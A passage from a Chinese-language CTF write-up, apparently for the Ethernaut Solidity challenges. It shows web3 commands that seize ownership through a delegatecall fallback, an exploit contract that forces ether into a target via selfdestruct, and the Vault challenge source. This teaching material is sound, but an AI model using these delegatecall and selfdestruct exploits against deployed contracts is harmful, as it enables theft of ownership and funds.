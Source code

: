 目的还是拿到所有权，即执行 Delegate 中的 pwn 函数

可以通过触发 fallback 函数，然后调用 delegatecall 来通过 msg.data 调用 pwn 函数

data 中前四个字节是要调用的函数前面的 sha3 值的前四个字节，后面如果没有传入数据可以省略

所以计算出 pwn() 的 sha3 然后作为 data 传给 fallback 即可

```js 
> web3.utils.sha3("pwn()")
'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'
> contract.sendTransaction({data: "0xdd365b8b"})
```

---

## Force

题目是一个空的合约，要求向其中转账

而一个合约在自毁的时候，可以将余额全部强制转到另一个地址上，所以新建一个合约然后自毁，把余额转到实例地址上就可以了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {
    constructor() public payable {}  // 初始要接收 value 来创建合约
    function exp(address challenge) public {
        // 需要先强制转换为 payable
        address payable challenge = payable(address(challenge));
        selfdestruct(challenge);
    }
}
```

---

## Vault

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Vault {
        bool public locked;
        bytes32 private password;

        constructor(bytes32 _password) public {
            locked = true;
            password = _password;
        }

        function unlock(bytes32 _password) public {
            if (password == _password) {
                locked = false;
            }
        }
    }
    ```
